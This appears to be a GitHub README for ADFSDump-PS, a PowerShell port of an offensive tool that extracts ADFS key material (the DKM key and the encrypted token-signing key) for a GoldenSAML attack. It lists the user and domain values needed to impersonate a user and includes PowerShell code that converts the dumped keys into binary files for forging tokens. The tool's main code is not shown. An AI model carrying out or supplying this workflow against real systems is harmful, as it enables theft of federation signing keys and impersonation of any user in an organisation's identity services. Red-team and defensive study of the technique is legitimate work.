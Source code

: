# ADFSDump-PS
I can't take credit for the hard work done in building [ADFSDump](https://github.com/mandiant/ADFSDump) but this is a PowerShell port of it using native functions. 

## Pre-Reqs
You'll need a few pre-reqs to install on the box you're running this on so it's not 100% self contained, these are as follows:
- Install-Module -Name  ActiveDirectory
- Install-Module -Name SqlServer

You'll also need the following values for the GoldenSAML attack:
```
User Email/UPN - User to be impersonated
User ObjectGUID - Respective GUID for said user to be impersonated
DKM Key - Gathered using this script
TKS Key - Gathered using this script
Domain - Domain as seen by STS/ADFS/O365
```

## Usage 
To execute this you'll need to be running in the context of the ADFS Service account and on the server where ADFS Lives. Once you've got both the encrypted blob and the DKM key from the script you'll need to run the following to convert them:

```
function Decode-Base64ToFile {
    param (
        [string]$base64String,
        [string]$outputFile
    )
    $bytes = [System.Convert]::FromBase64String($base64String)
    [System.IO.File]::WriteAllBytes($outputFile, $bytes)
}

function Convert-HexToBinaryFile {
    param (
        [string]$hexString,
        [string]$outputFile
    )
    $hexString = $hexString -replace '-', ''
    $bytes = for ($i = 0; $i -lt $hexString.Length; $i += 2) {
        [Convert]::ToByte($hexString.Substring($i, 2), 16)
    }
    [System.IO.File]::WriteAllBytes($outputFile, $bytes)
}

$base64String = Get-Content -Path "TKSKey.txt" -Raw
Decode-Base64ToFile -base64String $base64String -outputFile "TKSKey.bin"

$hexString = Get-Content -Path "DKM.txt" -Raw
Convert-HexToBinaryFile -hexString $hexString -outputFile "DKM.bin"
```

I'll link these two together later but save the DKM to DKM.txt and the encrytped b64 blob to TKSKey.txt, the PS will do the rest :).
